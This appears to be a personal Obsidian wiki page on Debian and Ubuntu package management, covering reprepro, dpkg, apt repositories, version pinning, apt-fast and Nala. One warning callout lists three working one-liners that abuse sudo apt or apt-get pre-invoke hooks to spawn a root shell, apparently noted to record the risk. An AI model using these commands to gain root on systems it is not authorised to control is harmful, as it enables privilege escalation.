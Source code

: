 ```yaml
---
tags: Linux Linux/Debian Linux/Ubuntu
visibility: public
---
```


# Repositories & Packages
https://wiki.debian.org/DebianRepository/UseThirdParty

[Package debfoster](https://packages.debian.org/stretch/debfoster) ^272991
> wrapper program for apt and dpkg. When first run, it will ask you which of the installed packages you want to keep installed.
> After that, it maintains a list of packages that you want to have installed on your system. It uses this list to detect packages that have been installed only because other packages depended on them. If one of these dependencies changes, debfoster will take notice, and ask if you want to remove the old package.
> This helps you to maintain a clean Debian install, without old (mainly library) packages lying around that aren't used any more.


### Debian Packages
- Ubuntu 22 changed the required compression for packages. In case of an improperly archived package it might have to be extracted and re-packaged or the proper format requested from the package maintainers.

`reprepro`: produce, manage and sync a local repository of Debian packages

See also [Jurjen's notes for packages on deb.rug.nl in Obsidian](obsidian://vault/lwp-docs/wiki/software/adding-a-package-to-deb.rug.nl) and [Jurjen's notes for packages on deb.rug.nl in LWP Docs](https://lwp.pages-817d151d.nip.io/documentation/wiki/wiki/software/adding-a-package-to-deb.rug.nl/)

```bash
# add package to repository
sudo reprepro \
    --confdir /etc/wraprepro/vhosts.d/<domain>/<mirror>/<os>/<release>/conf/ \
    includedeb <repository-name> \
    <package>
# test what packages would be pulled to target channel
sudo reprepro \
     --confdir /etc/wraprepro/vhosts.d/<domain>/<mirror>/<os>/<release>/conf/ \
     checkpull <target-repository-name>
# actually pull changes to target channel: replace checkpull by pull
```

### dpkg

```bash
# extract package
dpkg -x [-X] <package> <destination>
# compare package versions
dpkg --compare-versions $version1 ne $version2
```

### apt
#Linux/apt

Add repository: add file in `/etc/apt/sources.list.d/` with
```
deb [arch=amd64 signed-by=/usr/share/keyrings/<keyring>] <url> <repository-name> main
```

Install specific version
```bash
sudo apt install package_name=package_version
```

> [!warning]- `sudo apt` vulnerability/exploit to get a root shell
> #tech/vulnerability #tech/exploit [permission escalation with `sudo apt`](https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/) ^9f90c9
> ```bash
> # Method 1: apt-get update pre-invoke shell
> sudo apt-get update -o APT::Update::Pre-Invoke::= /bin/bash
> # Method 2: start shell from interactive apt-get changelog
> sudo apt-get changelog apt << '#!/bin/sh'
> # Method 3: apt install pre-invoke shell (from file)
> TF=$(mktemp)
echo 'Dpkg::Pre-Invoke {"/bin/sh;false"}' > $TF
sudo apt-get install -c $TF sl
> ```

`apt-get clean`: empty cache (downloaded packages) [Foss](https://itsfoss.com/clear-apt-cache/)
[apt-fast](https://github.com/ilikenwf/apt-fast): shellscript wrapper for apt-get and aptitude that can drastically improve apt download times by downloading packages in parallel, with multiple connections per package

Speed up downloads by using multiple parallel connections: (unofficial) [package `apt-fast`](https://github.com/ilikenwf/apt-fast)

#### Packages

Pin/hold a package version, for example Kernel version (see [Work notes LWP > Puppet > module Kernel Maintenance](obsidian://vault/rug/lwp/Puppet/modules/kernel_maintenance) and [code](file://git/puppetserver/our-modules/kernel_maintenance/manifests/init.pp))
```bash
apt-mark showhold | grep -q -e '^linux-headers-${pin}' -e '^linux-image-${pin}' -e '^linux-modules-${pin}' -e '^linux-modules-extra-${pin}'
apt-mark hold linux-headers-${pin}-generic linux-image-${pin}-generic linux-modules-${pin}-generic linux-modules-extra-${pin}-generic
```

#### Nala
[![[github.svg]] Github](https://github.com/volitank/nala) | [![[book.svg]] Wiki](https://gitlab.com/volian/nala/-/wikis/Installation)
> Nala is a front-end for `libapt-pkg`. Specifically we interface using the `python-apt` api.
![|400](https://github.com/volitank/nala/raw/main/imgs/nala-install-2.png)
https://trendoceans.com/nala-package-manager/
